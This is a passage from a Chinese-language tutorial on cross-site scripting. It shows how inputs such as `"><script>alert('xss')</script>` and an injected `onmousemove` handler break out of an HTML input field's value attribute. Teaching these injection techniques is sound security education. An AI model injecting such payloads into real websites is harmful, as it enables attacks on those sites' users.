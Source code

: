 分析输出代码：

```html
<input type="text" value="<script>alert('xss')</script>">  </center>
```

### 输入三

如果我输入`">`，就会变成：

```html
<input type="text" value=""> ">  </center>
```

input 提前闭合了！之后的`">`就被舍弃了，变成了普通文本。

### 输入四

如果我输入：`"><script>alert('xss')</script>`

显示效果：

![asc](XSS攻击/asc.gif)

### 输入五

现在我不想显示弹框攻击了，我想触发某种事件实现攻击，那么就输入以下内容：

```html
" onmousemove="alert('我就测试一下')"
```

显示结果：

![asc](XSS攻击/asc-1562308830171.gif)
